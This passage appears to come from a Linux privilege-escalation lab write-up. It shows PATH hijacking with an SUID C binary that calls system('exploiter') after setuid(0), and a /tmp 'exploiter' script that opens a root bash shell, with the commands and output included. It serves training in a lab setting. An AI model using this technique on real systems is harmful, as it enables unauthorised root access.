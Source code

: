 3. Can you modify $PATH? 

There is no writable folder, If we can modify it, then we need to add a writable folder to the `$PATH`, which is `/tmp` folder

```bash
$ export PATH=/tmp:$PATH
$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
$ ls -ld /tmp
drwxrwxrwt 11 root root 4096 Jul 15 12:52 /tmp
```

4. Is there a script/application you can start that will be affected by this vulnerability?

we will create a script named `test.c` that will tries to lunch a system binary called `exploiter`. 
```c
#include<unistd.h>
#include <stdlib.h>
void main()
{ setuid(0);
  setgid(0);
  system("exploiter");
}
```

Compile it into an executable and set the SUID bit. 
```bash
$ gcc  test.c -o test -w
$ chmod u+s test
$ ls -l test
-rwSrw-r--  1 karen karen 16056 Jul 15 13:35 test
```
Once executed `test` will look for an executable named `exploiter` inside folders listed under `PATH`. As the SUID bit is set, this binary will run with root privilege

Now, lets create the system binary that will be executed by the `test` binary in the `/tmp` folder. 
```bash
$ echo "/bin/bash" > exploiter
$ chmod 777 exploiter
$ ls -l exploiter
-rwxrwxrwx 1 karen karen 10 Jul 15 13:45 exploiter
```

Run the binary 
```bash
$ ./test
root@ip-10-10-224-225:/home/murdoch# whoami
root
```
> We have given executable rights to our copy of `/bin/bash`, please note that at this point it will run with our user’s right. What makes a privilege escalation possible within this context is that the path script runs with root privileges. 


## Privilege Escalation: NFS
